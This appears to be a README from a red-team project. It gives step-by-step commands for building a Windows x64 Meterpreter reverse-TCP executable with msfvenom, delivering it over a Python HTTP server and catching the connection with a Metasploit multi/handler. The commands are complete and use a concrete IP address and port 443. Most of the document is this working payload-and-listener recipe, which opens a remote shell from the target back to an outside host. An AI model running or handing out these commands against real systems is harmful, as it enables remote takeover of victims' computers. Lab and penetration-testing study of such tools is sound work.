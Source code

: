 # Generating and Handling Windows Payloads with Metasploit

## 1. Generate a Windows 10/11 x64 Payload

Use the following command in Kali Linux to generate a conventional Windows 10/11 x64 payload with `msfvenom`:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=20.40.46.181 LPORT=443 -f exe -o reverse.exe
```
## 2. Update LHOST and LPORT

    Change LHOST to the IP address of your Kali Linux machine.
    Change LPORT to the listening port on your Kali Linux machine. This can be any open port on Kali Linux.
![alt text](https://raw.githubusercontent.com/vaishnavucv/Project-winEvasion-Redteam/main/Resource/MSF_1.png)
## 3. Transfer the Payload to a Windows VM

After generating the msfvenom payload for Windows 10/11 x64, transfer the payload to the testing Windows 10/11 VM using a Python HTTP server:
```bash
python3 -m http.server
```
## 4. Set Up and Start the Metasploit Listener

After successfully copying or sending the payload to the Windows VM, run the following command to set up and listen for a reverse connection from the Windows VM:
```bash
sudo msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST 20.40.46.181; set LPORT 443; exploit"
```
## 5. Security Considerations

In this scenario, updated Windows 10/11 security features may block and isolate the executing payload, potentially removing it from the copied location.
## 6. Note

Ensure that the steps to generate and execute the payload are performed on Kali Linux with Metasploit Framework.
> Feel free to adjust the IP address and port number as needed for your specific setup!
